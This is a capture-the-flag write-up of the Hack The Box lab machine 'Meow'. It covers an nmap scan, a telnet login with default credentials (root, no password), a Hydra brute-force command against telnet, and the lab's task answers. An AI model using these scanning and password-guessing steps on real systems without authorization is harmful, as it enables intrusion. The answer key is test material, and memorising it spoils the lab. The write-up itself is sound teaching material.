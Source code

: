 ```yaml
---
title: Hackthebox - Meow
date: 2022-04-07 13:39:00 +0530
categories: [Challenges, Hackthebox]
tags:
---
```


Hello Hackers,  

Meow is one of the Hackthebox's machine in the starting point category with the level of Very Easy. This machine introduces us to the Telnet protocol.

### Enumeration 
Nmap is a network mapper tool used to find open ports. To find open ports, run the below command.

```bash
$ nmap -Pn -A -T4 -vvv -oN scan_output.nmap <IP>
```
Explanation,

`nmap` Initiates nmap tool   
`-Pn` Treat all hosts as online   
`-A` Enable agressive mode (OS Detection + Version Detection + Scripting Scanning + traceroute)  
`-T4` Enable agressive speed  
`-vvv` Verbosity with level of three  
`-oN` Normal output to  a file "scan_output.nmap"  
`10.129.195.171` Target IP

```bash
$ nmap -Pn -A -T4 -vvv -oN scan_output.nmap 10.129.195.171
# Nmap 7.92 scan initiated Thu Apr  7 14:02:31 2022 as: nmap -Pn -A -T4 -vvv -oN nmap/all-ports 10.129.195.171
Nmap scan report for 10.129.195.171
Host is up, received user-set (0.37s latency).
Scanned at 2022-04-07 14:02:32 IST for 50s
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE REASON  VERSION
23/tcp open  telnet  syn-ack Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Apr  7 14:03:22 2022 -- 1 IP address (1 host up) scanned in 51.05 seconds
```

In the above scan result, we can see that TCP port number 23 is open. TCP port 23 is the reserved port for the TELNET protocol.

As per Wikipedia, Telnet is an application protocol used on the Internet or local area network to provide a bidirectional interactive text-oriented communication facility using a virtual terminal connection.

### Exploitation

Let's try to connect Telnet on port 23.

```bash
$ telnet 10.129.195.171 23
```
![telnet login](/assets/posts_assets/2022-04-07-Meow/2022-4-07-Meow-telnet-login.png)

We can see that it's asking for the TELNET login credentials. Since we don't have any login credentials, we can try the following common credentials,  

admin:admin  
administrator:administrator  
root:[no_password]

The first two login credentials were not working. However, username root with no password worked.

![telnet login success](/assets/posts_assets/2022-04-07-Meow/2022-4-07-Meow-telnet-login-success.png)

We can see the root flag is inside our home directory. To read,

```bash
root@Meow:~# cat flag.txt
```

### Bonus Tip
If you want to crack the telnet username and password then try Hydra. Hydra is the fastest password cracking tool.

Run below command to crack the telnet username and password.

```bash
$ hydra -L usernames.txt -P rockyou.txt 10.129.195.171 telnet -f -vV
```

Explanation,

`hydra` Initiates Hydra tool  
`-L` List of usernames "usernames.txt"  
`-P` List of passwords "rockyou.txt"  
`10.129.195.171` Target IP  
`telnet` Service that we want to crack password for  
`-f` Exit on successful login  
`-vV` Verbose


### Tasks
Task 1: What does the acronym VM stand for?  
Answer: virtual machine

Task 2: What tool do we use to interact with the operating system in order to start our VPN connection?   
Answer: terminal

Task 3: What service do we use to form our VPN connection?   
Answer: openvpn

Task 4: What is the abreviated name for a tunnel interface in the output of your VPN boot-up sequence output?   
Answer: tun

Task 5: What tool do we use to test our connection to the target?   
Answer: ping

Task 6: What is the name of the tool we use to scan the target's ports?   
Answer: nmap

Task 7: What service do we identify on port 23/tcp during our scans?   
Answer: telnet

Task 8: What username ultimately works with the remote management login prompt for the target?   
Answer: root

Happy Hacking!

Warm Regards,  
ValluvarSploit